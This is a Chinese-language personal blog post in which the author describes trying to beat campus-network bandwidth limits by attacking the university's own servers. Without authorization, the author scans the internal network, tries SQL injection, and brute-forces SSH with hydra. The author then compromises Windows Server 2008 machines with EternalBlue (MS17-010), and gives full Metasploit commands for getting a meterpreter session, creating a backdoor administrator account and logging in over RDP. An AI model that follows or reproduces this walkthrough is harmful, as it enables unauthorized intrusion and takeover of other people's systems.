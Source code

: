 ## 校园网折腾总结

#### 前景提要

* 心路历程
    * 从最开始的 10Mb 降到 4Mb，勉强可以忍受，但前几天降到了 1Mb，有点承受不住，而且收费价格...
    * 所以有想法要搞一波事

#### 思路

1. 最开始是抓了几个包，看看是怎么限速的，没看出来（好像是**arp劫持**？
    * 而学校的路由器是我无法控制的，所以arp劫持的思路绑定不了固定mac地址...此方法弃之
2. 搞一台内网的服务器，搭个代理，绕过限速
    1. 开始用 nmap 扫一下 校园网登陆界面的ip，**8080端口**开着，看了一下，是管理员登陆界面，php搞的，试了一下**SQL注入**，没找到注入点...此方法弃之
    2. **22端口**也开着 ( 本身是Linux的服务器 ) ，所以想爆破一下，用 **hydra** 爆破，字典是 **rockyou.txt**，然后我就和朋出去喝酒了，让电脑自己跑了6个小时，无果（之后还换了其他的内网开通22端口的服务器来爆破，依旧没效果...此方法弃之
3. 把两个校园网账号叠加，自己搭一个有负载均衡的路由器，至少理论上网速是可以变为2倍的
    * 没刷硬件，用虚拟机搞了个软路由，用的**iKuai路由**，结果发现速度也就1.5倍（而且负载均衡有时候失效...此方法弃之
4. 重回搭代理的思路
    * 这次扫出来几个Windows的服务器，而且是2008版的server，所以**MS17-010**了解一下，也就是半年前的那个席卷全球的勒索病毒(WannaCry)的利用的永恒之蓝漏洞(EternalBlue)
    * 攻进去后发现这机器没开远程服务，开启需要重启，而这服务器的内存占用96%，基本都是在跑SQL server，不敢重启，于是攻了另一台服务器，就在跑一个phpinfo，遂利用这太服务器当代理
    * 但开了VPN和NAT后，发现速度并没有提升...
    * 忍痛得出结论，限速是在通过登陆账号获取ip后进行的，也就是大概可能是最终连接外网的服务器根据你的ip来决定限速否？不太清楚
    * 其实最开始的思路有一个地方就错了，不应该是登陆校园网账号后再进行端口扫描，而应该是在只连接状态，未登陆账号情况下，可以直通的内网服务器，做代理访问外网，于是扫了半天端口，发现基本是90%是Linux，10%的Windows把445端口关了...卒
5. 认清**我是傻逼**的事实，去营业厅交了38块钱，开了个16Mb的网
    * 测速16Mb基本差不多
    * 无聊重连了一下之前搭的VPN，测速100Mb...Surprise M** F**
    * 难道交钱的不交钱的限速方式有区别？不清楚


#### 攻Windows的过程

* 环境/工具
    * Kali作为攻击系统
    * Windows Server作为被攻击系统
    * [Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)

* 过程
    1. 把[Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)clone下来
    2. 把 `eternalblue_doublepulsar.rb` 放到 `/usr/share/metasploit-framework/modules/exploits/windows/smb`
        * `mv eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb`
    3. `msfconsole`
    4. `use exploit/windows/smb/eternalblue_doublepulsar`
    5. `show options`
        * 查看下配置
    6. `set RHOST 目标IP`
        * 如果PLAYLOAD用bind_tcp的话，就不用LHOST了（也就是源Kali的IP）
    7. `set RPORT 445`
        * 保证攻击的是445端口
    8. `set TARGETARCHITECTURE x64`
        * 这个要看攻击的服务器是x86还是x64了，选择错了的话后面好像不能`create session`
    9. `set payload windows/meterpreter/bind_tcp`
        * 最开始用的是 `reverse_tcp` 但是不能`create session`，最后[在GitHub上搜到的解决办法是用的 `bind_tcp`](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit/issues/22)
    10. `set PROCESSINJECT explorer.exe`
        * 尝试用过`lsass.exe`, `svchost.exe`都不行
    11. `exploit`
        * 开始攻击
    12. 成功的话，会拿到 `meterpreter`
    13. 然后可以新建一个用户
        * `run getgui -u 用户名 -p 密码`
            * ps: 有的Windows的密码有要求，按提示来就好
            * pps: 提示可能给你中文的，在英文的Kali的console上可能乱码，把terminal的编码改为gbk就可以了
    14. 提权
        * [把新用户提升到管理员权限](https://www.windows-commandline.com/add-user-to-group-from-command-line/)
            1. 在 `meterpreter` 里用 `shell` 命令进入Windows的console（即cmd）中
            2. `net localgroup administrators 用户名 /add` 把新用户加入到 Administrators 组，这样就可以远程登陆了
    15. 在另一台自己的Windows上开启远程桌面，输入刚才新建用户和密码登陆
    16. 进入拿到的`Windows Server`, 现在这台电脑是你的了

* 关于在Windows上搭VPN
    * [Windows server 2008 搭建***服务](http://blog.51cto.com/skytech/626640)
        * 基本上按照这个走没太大问题
            * ipv4动态访问就可以，不用静态地址池
            * 安全里的加密策略不行的话改一改试试，我也不太确定
            * 更改登陆用户的属性，把通过NPS访问控制改成允许访问
    * 在刚才那一步之前可能没有开启[路由和远程访问服务 (RRAS)](https://msdn.microsoft.com/zh-cn/library/dn614140(v=ws.11).aspx)
        * 改一下服务的配置
            * [How to Start/Stop Routing and Remote Access service](https://computerstepbystep.com/routing_and_remote_access_service.html)
    * 基本上服务端就配置完了，客户端新建一个VPN客户端连接一下就可以了，用户名和密码就是刚才登陆Windows Server的账号密码